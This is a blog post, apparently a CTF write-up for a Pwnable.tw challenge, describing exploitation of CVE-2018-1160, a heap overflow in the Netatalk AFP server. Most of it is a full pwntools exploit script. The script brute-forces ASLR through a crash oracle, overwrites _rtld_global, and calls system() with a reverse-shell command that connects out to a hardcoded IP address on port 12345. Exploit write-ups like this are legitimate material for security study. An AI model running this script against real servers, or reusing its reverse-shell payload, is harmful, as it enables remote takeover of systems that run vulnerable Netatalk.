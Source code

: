 ```yaml
---
layout: post
title: "CVE-2018-1160: Netatalk RCE"
date: 2022-07-15
permalink: /:title/
description: "Exploitation of an Apple Filing Protocol Server"
tags: [ctf, n-day]
share: true
comments: false
published: true
status: ongoing
---
```



This is the solution to a Pwnable.tw challenge, as well as an n-day exploit.
At the time of writing only ~~87~~ 88 players managed to solve it.
The most troublesome part is finding the correct offset against the challenge server, which is Ubuntu 16.04 (Kernel x86-64 4.9.0)

## Bug 

The root cause has already been thoroughly explained in many other blog posts
so I won't delve too much into that.  
AFP (Apple Filing Protocol) is an old server protocol that can be thought as
SMB for Apple's filesystem.  
The vulnerability is a heap overflow in
`dsi_opensess.c` that occurs when trying to open a new session with the server.
The 255 bytes overflow allows an attacker to overwrite the pointer at which
subsequent packets are written to. Given knowledge of the memory layout of the
process, the second packet can be used to overwrite function pointers in
memory, for example malloc's interal hooks (i.e. `__free_hook`).

What hasn't been touched upon as much is how to reliably defeat ASLR: the
original discovery of the bug abused the fact that the binary wasn't compiled
with PIE (Position Indipendent Executable) enabled.

## Application behaviour in regards to memory addresses validity

Due to the client-server architecture, the application behaves as a oracle by
crashing the thread when writing to an invalid memory address and responding
over the socket when writing to a valid one. Doing this allows an attacker to
leak a memory address in $$2^8 \cdot 3$$ attempts.

## Bypass

_This is work in progress, the final exploit needs its offsets to be adjusted against the challenge's server._ 

## Exploitation strategy

I chose to overwrite `_rtld_global`'s pointer, more specifically
`_rtld_global._dl_rtld_lock_recursive` which is a function invocked when
`exit(...)` is called, its function arguments can be found in
`_rtld_global._dl_load_lock`

## Full code

```python
from pwn import *
from time import sleep
from random import uniform


elf = ELF('./afpd')
libc = ELF('./libc.so.6')

DSI_FLAGS = {
    "request": 0x0,
    "response": 0x1
}

DSI_CMD = {
    "get_status": 0x3,
    "open_sess": 0x4,
    "tickle": 0x5
}

if args['REMOTE']:
    HOST = "chall.pwnable.tw"
    PORT = 10002
else:
    HOST = "localhost"
    PORT = 5566

def new_dsi_header(flag, command, request_id, offset, data_len):

    DSI_FLAGS = p8(flag, endian='big')
    DSI_COMMAND = p8(command, endian='big')
    DSI_REQUEST_ID = p16(request_id, endian='big')
    DSI_ERROR = p32(offset, endian='big')
    DSI_DATA_LENGTH = p32(data_len, endian='big')
    DSI_RESERVED = p32(0x0, endian='big')

    pck  = DSI_FLAGS
    pck += DSI_COMMAND
    pck += DSI_REQUEST_ID
    pck += DSI_ERROR
    pck += DSI_DATA_LENGTH
    pck += DSI_RESERVED

    return pck

def send_afp(payload, req_id=0x0):

    context(endian='big')

    io = remote(HOST, PORT, level='error')

    error_code = 0x0

    p = p8(0x1, endian='big')
    p += p8(16 + len(payload), endian='big')
    p += p32(0x41414141)
    p += p32(0x42424242)
    p += p32(0x66666666)    # server quantum
    p += p32(0x43434343)    # client/server id
    p += payload            # cmd pointer

    packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id, error_code, len(p))
    packet += p

    io.send(packet)
    io.recv()

    try:
        reverse_shell = b"bash -c 'bash -i >& /dev/tcp/139.162.131.224/12345 0>&1' \x00"
        trigger = reverse_shell.ljust(0x5f8) + p64(libc_base + libc.symbols['system'], endian='little')
        packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id+1, error_code, len(trigger))
        packet += trigger
    except:
        pass

    try:
        io.send(packet)
        io.close()
    except Exception as ex:
        pass

def bruteforce_aslr():
    context(endian='big')
    leak_addr = b''

    req_id = 0x0
    error_code = 0x0

    if args['SKIP']:
        return int(args['SKIP'], 0)

    for b in range(8):
        for i in range(256):
            print(f"[*] trying byte: {hex(i)} in offsetÊ{b}", end="\r")
            io = remote(HOST, PORT, level='error')

            payload = b"\x01" + p8(0x11 + b) + b"a"*0x10 + leak_addr + p8(i)
            packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id, error_code, len(payload))
            packet += payload

            io.send(packet)
            try:
                a = io.recv()
                leak_addr += p8(i)
                log.success(str(hex(i)))
                io.close()
                break
            except:
                io.close()

    print("\n")
    log.success(hex(u64(leak_addr,endian='little')) + "\n")

    return int.from_bytes(leak_addr, 'little')

rtld_off = 0x61b060
_dl_load_lock_off = 2312
leaked_addr = bruteforce_aslr()
print("memory address: " + hex(leaked_addr))

if args['LIBC_OFF']:
    libc_base = leaked_addr - 0x817000
    rtld_addr = libc_base + rtld_off + _dl_load_lock_off

    try:
        send_afp(p64(rtld_addr, endian='little'))
    except:
        pass
else:
    # try every memory page-aligned address (assuming leaked_addr is page-aligned)
    # for offset in range(-0xfffff000, 0xfffff000, 0x1000):
    for offset in range(0, 0x6000000, 0x1000):
        for rtld_off in [0x61b060, 0xed4060]:

            libc_base = leaked_addr - offset
            rtld_addr = libc_base + rtld_off + _dl_load_lock_off

            try:
                r = uniform(0, 0.2)
                print(f"[*] looking for libc base: {hex(libc_base + offset)} - {hex(offset)}, waiting {r}", end="\r")
                sleep(r)
                send_afp(p64(rtld_addr, endian='little'))
            except:
                pass

    print("\n")
    log.success("end")
```


